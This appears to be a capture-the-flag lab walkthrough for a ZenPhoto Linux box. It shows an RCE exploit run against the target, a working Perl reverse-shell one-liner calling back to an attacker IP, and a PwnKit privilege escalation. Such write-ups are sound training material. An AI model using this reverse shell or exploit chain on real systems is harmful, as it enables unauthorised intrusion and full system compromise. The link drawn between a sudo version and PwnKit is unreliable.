 # 🐧 ZenPhoto (Linux) Walkthrough

## 🔍 Initial Foothold

- Ran `gobuster` and found ZenPhoto installation at `/test/`
- Discovered RCE vulnerability using [exploit 18083](https://www.exploit-db.com/exploits/18083)
- Ran the exploit:
  ```bash
  php 18083.php 192.168.195.41 /test/
  ```
- Received limited PHP shell.

### 🧪 Upgraded to Full Shell
Used reverse shell with Perl:
```bash
perl -e 'use Socket;$i="192.168.45.229";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**Resources:**
- [Reverse Shell Cheatsheet – PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)
- [Socat Reverse Shell Cheatsheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#socat)

---

## 🚀 Privilege Escalation

- Found vulnerable sudo version: `1.7.2p1`
- Used CVE-2021-4034 (PwnKit) for PE
- [Exploit GitHub Link](https://github.com/arthepsy/CVE-2021-4034)

---

## ✅ Summary

- **Initial Access:** ZenPhoto RCE exploit
- **Shell Upgrade:** Perl reverse shell
- **Privilege Escalation:** CVE-2021-4034 – PwnKit exploit